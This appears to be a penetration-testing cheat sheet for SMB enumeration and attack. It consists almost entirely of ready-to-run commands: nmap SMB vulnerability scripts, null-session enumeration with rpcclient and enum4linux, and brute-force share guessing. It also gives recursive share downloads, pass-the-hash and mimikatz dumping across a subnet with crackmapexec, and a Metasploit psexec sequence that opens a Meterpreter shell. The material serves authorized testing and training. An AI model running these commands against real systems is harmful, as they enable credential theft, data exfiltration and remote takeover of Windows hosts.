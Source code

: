 SMB Enumeration Tools

# SMB Enumeration Tools

### Nmap Enumeration
```
$ ls -lh /usr/share/nmap/scripts/ | grep smb
-rw-r--r-- 1 root root  3355 Oct 12 09:29 smb2-capabilities.nse
-rw-r--r-- 1 root root  3075 Oct 12 09:29 smb2-security-mode.nse
-rw-r--r-- 1 root root  1447 Oct 12 09:29 smb2-time.nse
-rw-r--r-- 1 root root  5238 Oct 12 09:29 smb2-vuln-uptime.nse
-rw-r--r-- 1 root root 45138 Oct 12 09:29 smb-brute.nse
-rw-r--r-- 1 root root  5289 Oct 12 09:29 smb-double-pulsar-backdoor.nse
-rw-r--r-- 1 root root  4840 Oct 12 09:29 smb-enum-domains.nse
-rw-r--r-- 1 root root  5971 Oct 12 09:29 smb-enum-groups.nse
-rw-r--r-- 1 root root  8043 Oct 12 09:29 smb-enum-processes.nse
-rw-r--r-- 1 root root 27274 Oct 12 09:29 smb-enum-services.nse
-rw-r--r-- 1 root root 12097 Oct 12 09:29 smb-enum-sessions.nse
-rw-r--r-- 1 root root  6923 Oct 12 09:29 smb-enum-shares.nse
-rw-r--r-- 1 root root 12527 Oct 12 09:29 smb-enum-users.nse
-rw-r--r-- 1 root root  1706 Oct 12 09:29 smb-flood.nse
-rw-r--r-- 1 root root  7471 Oct 12 09:29 smb-ls.nse
-rw-r--r-- 1 root root  8758 Oct 12 09:29 smb-mbenum.nse
-rw-r--r-- 1 root root  8220 Oct 12 09:29 smb-os-discovery.nse
-rw-r--r-- 1 root root  4982 Oct 12 09:29 smb-print-text.nse
-rw-r--r-- 1 root root  1831 Oct 12 09:29 smb-protocols.nse
-rw-r--r-- 1 root root 63596 Oct 12 09:29 smb-psexec.nse
-rw-r--r-- 1 root root  5190 Oct 12 09:29 smb-security-mode.nse
-rw-r--r-- 1 root root  2424 Oct 12 09:29 smb-server-stats.nse
-rw-r--r-- 1 root root 14159 Oct 12 09:29 smb-system-info.nse
-rw-r--r-- 1 root root  7524 Oct 12 09:29 smb-vuln-conficker.nse
-rw-r--r-- 1 root root  6402 Oct 12 09:29 smb-vuln-cve2009-3103.nse
-rw-r--r-- 1 root root 23154 Oct 12 09:29 smb-vuln-cve-2017-7494.nse
-rw-r--r-- 1 root root  6545 Oct 12 09:29 smb-vuln-ms06-025.nse
-rw-r--r-- 1 root root  5386 Oct 12 09:29 smb-vuln-ms07-029.nse
-rw-r--r-- 1 root root  5688 Oct 12 09:29 smb-vuln-ms08-067.nse
-rw-r--r-- 1 root root  5647 Oct 12 09:29 smb-vuln-ms10-054.nse
-rw-r--r-- 1 root root  7214 Oct 12 09:29 smb-vuln-ms10-061.nse
-rw-r--r-- 1 root root  7344 Oct 12 09:29 smb-vuln-ms17-010.nse
-rw-r--r-- 1 root root  4400 Oct 12 09:29 smb-vuln-regsvc-dos.nse
-rw-r--r-- 1 root root  6586 Oct 12 09:29 smb-vuln-webexec.nse
-rw-r--r-- 1 root root  5084 Oct 12 09:29 smb-webexec-exploit.nse
$ nmap x.x.x.x -v -p 139,445 --script=exampleScript1.nse,exampleScript2.nse
```

### Enum4linux

All simple checks:
```
enum4linux -a x.x.x.x
```

Brute force guessing for share names:
`enum4linux -s /usr/share/enum4linux/share-list.txt x.x.x.x`

### SMBmap

```
$ smbmap -H 172.21.0.0 -d [domain] -u [user] -p [password]
$ smbmap -H 172.21.0.0 -d [domain] -u "" -p ""
```

### SMBClient
```
$ smbclient -L 172.21.0.0
$ smbclient -L x.x.x.x -U ""
$ smbclient //172.21.0.0/tmp
```

If you have a user name or guest login works:
```
$ smbclient //windows_server_NETBIOS_NAME/destination_folder -U WINDOWS_USER -I x.x.x.x
```
or
```
$ smbclient -L //x.x.x.x -U guest -i x.x.x.x
```

Recursively list a directory:
```
$ smbclient \\\\x.x.x.x\\Folder
smb: \> recurse on             
smb: \> ls
```
Recursively get all files in a share:
```
$ smbget -R smb://x.x.x.x/Folder/ -U Username
```

### Impacket 

```
python3 /usr/share/doc/python3-impacket/examples/smbclient.py username@x.x.x.x
```

```
python3 samdump.py SMB x.x.x.x
```

### RPCclient

```
rpcclient -U "" -N x.x.x.x enumdomusers
```

Attempt an null connection:
```
rpcclient -U '' x.x.x.x
```

### CrackMapExec

```
$ crackmapexec smb -L 
$ crackmapexec x.x.x.x -u Administrator -H [hash] --local-auth
$ crackmapexec x.x.x.x -u Administrator -H [hash] --share
$ crackmapexec smb x.x.x.0/24 -u user -p 'Password' --local-auth -M mimikatz
```
Attempt an null connection:
```
$ crackmapexec smb x.x.x.x --pass-pol -u '' -p ''
```

### Polenum

Attempt an null connection:
```
$ polenum -u '' -p '' -d x.x.x.x
```

### Metasploit

If you have user credentials, you can use them to get a Meterpreter shell on the machine running smb:

```
msf6 > use exploit/windows/smb/psexec
msf6 > set RHOSTS x.x.x.x
msf6 > set SMBUser <username>
msf6 > set SMBPass <password>
msf6 > set RPORT <default_is_445>
msf6 > run
```